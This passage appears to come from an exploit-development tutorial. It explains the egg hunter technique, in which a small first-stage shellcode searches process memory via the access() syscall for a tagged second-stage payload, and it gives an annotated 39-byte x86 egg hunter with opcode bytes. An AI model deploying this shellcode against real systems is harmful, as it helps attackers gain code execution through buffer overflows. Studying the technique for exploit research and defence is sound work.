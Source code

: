 When the application parses this request, the first stage (egg hunter) is allocated in a certain part of the memory, while the second one (shellcode) goes to a different place. Now even if the buffer was too small to accomodate our shellcode if we sent it instead of the bunch of 'A's, passing it as a second stage will solve the problem. Finally, we use the egg hunter to find where exactly the shellcode is.

## How it works
The problem with searching a process' VAS is that it is not allowed to touch every single address. Trying to access a forbidden block of memory would generate a SIGSEGV signal, which might crash the process. One solution might be to create a SIGSEGV handler so we could manage every time this problem happened. That said and according to Skape, this idea would result in a way too large payload.

Therefore, a better approach is to abuse the system call interface to validate a memory address without receiving a segmentation fault. Instead of returning SIGSEGV, a syscall generally returns an EFAULT, which will not crash our program. The chosen syscall was *access()*, which is meant to check if the current process has the specific access rights to a given file on disk. The reason for this choice is related to the amount of pointer arguments it receives and the fact that it
does not try to write to the pointer supplied.

    int access(const char *pathname, int mode);

Another problem an attacker would find while developing an egg hunter is how the hunter will know when it found the shellcode or not. A solution would be to prepend the shellcode with some identifying bytes, like 'w00t'. This little guy is called the EGG, by the way. There is still a tricky part though. What if the egg hunter finds itself!? An elegant way to solve this problem is to prepend the shellcode with the same identifier again. So right before the shellcode we will have
'w00tw00t', so the hunter knows it has found the right piece of code.

Here it is the 39 bytes payload as showed in the paper, along with my comments. The egg here is '\x90\x50\x90\x50'. For the record, *ebx* is mostly responsible for storing the egg, while *ecx* points to the page and *edx* points to the address being checked.

```
00000000  BB90509050        mov ebx,0x50905090 ;ebx points to the egg
00000005  31C9              xor ecx,ecx ;clear ecx
00000007  F7E1              mul ecx ;clear eax and edx
00000009  6681CAFF0F        or dx,0xfff ;if an address in the page is invalid, all other addresses in the page are invalid. Jmp here to align the page.
0000000E  42                inc edx ; If the address was invalid, this line finishes the alignment. Otherwise it will simply increment edx to check the next address.
0000000F  60                pusha ;saves all the registers in the stack
00000010  8D5A04            lea ebx,[edx+0x4] ;ebx must contain the pointer to the address to be validated, which is pointed by edx. The +4 is an optimization
00000013  B021              mov al,0x21 ;set access() syscall number
00000015  CD80              int 0x80 ;force interrupt
00000017  3CF2              cmp al,0xf2 ;check if address is valid (0xf2==EFAULT)
00000019  61                popa ;restore saved registers
0000001A  74ED              jz 0x9 ;if address is not valid, go to 00000009
0000001C  391A              cmp [edx],ebx ;if the adress is valid, check if it contains the egg
0000001E  75EE              jnz 0xe ;if the address is valid but does not contain the egg, go to 0000000E
00000020  395A04            cmp [edx+0x4],ebx ;if the address is valid and contains the egg, check if the next byte contains the other egg
00000023  75E9              jnz 0xe ;if it does not contain the second egg, then the hunter found itself! Go to 0000000E
00000025  FFE2              jmp edx ;We found both eggs! Go to shellcode o/
```
